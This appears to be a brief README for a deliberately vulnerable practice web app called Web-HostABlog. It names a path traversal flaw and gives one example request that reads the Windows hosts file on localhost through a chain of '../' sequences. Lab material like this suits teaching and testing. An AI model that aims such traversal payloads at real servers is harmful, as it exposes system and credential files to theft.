 # Web-HostABlog

**Exploit**: Path traversal vulnerability

**Example**:
```bash
http://localhost:8080/?page=../../../../../../../../../Windows/System32/drivers/etc/hosts
```

Kelly Nguyen, Clam-Corp's contracted telecoms expert... Some may say a better blogger than coder...
